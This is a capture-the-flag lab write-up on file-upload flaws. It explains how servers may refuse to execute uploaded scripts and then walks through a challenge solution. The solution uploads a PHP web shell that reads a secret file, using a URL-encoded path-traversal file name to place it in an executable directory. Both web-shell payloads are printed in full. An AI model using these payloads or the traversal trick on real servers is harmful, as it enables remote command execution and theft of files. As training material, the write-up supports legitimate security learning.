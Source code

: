 ## Preventing file execution in user-accessible directories

While it's clearly better to prevent dangerous file types being uploaded in the first place, the second line of defense is to stop the server from executing any scripts that do slip through the net.

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead:

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

This behavior is potentially interesting in its own right, as it may provide a way to leak source code, but it nullifies any attempt to create a web shell.

This kind of configuration often differs between directories. A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations on the filesystem that are assumed to be out of reach for end users. If you can find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all.

## Challenge

> In this challenge we don't have upload permission on php files in current directory so we have to upload that to another directory and find the `/home/carlos/secret`

--> So i used the same payload as previous challenges:

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> After that i changed the filename to `..%2fwebshell.php` which is equal to `../webshell.php` and it will store the file in one previous directory of current location so let's try this !

And file got uploaded!

![](Attachments/Pastedimage20220124132312.png)

--> When we copy the image location we find the flag!

![](Attachments/Pastedimage20220124132250.png)

